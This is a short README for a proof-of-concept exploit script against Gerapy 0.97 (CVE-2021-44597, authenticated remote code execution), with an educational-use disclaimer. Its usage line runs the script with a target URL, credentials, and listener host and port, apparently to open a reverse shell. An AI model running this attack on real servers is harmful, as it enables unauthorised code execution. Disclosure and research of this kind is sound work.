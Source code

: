 # Gerapy CVE-2021-44597 

Gerapy CVE-2021-44597 for versions 0.97 are vulnerable to authenticated arbitrary code execution.

## Getting Started

### Executing program

* Using python3
```
python3 gerapy_rce.py -t http://gerapy.target/ -u username -p password -lhost 127.0.0.1 -lport 9001
```

## Help

Help prompt
```
python3 gerapy_rce.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.
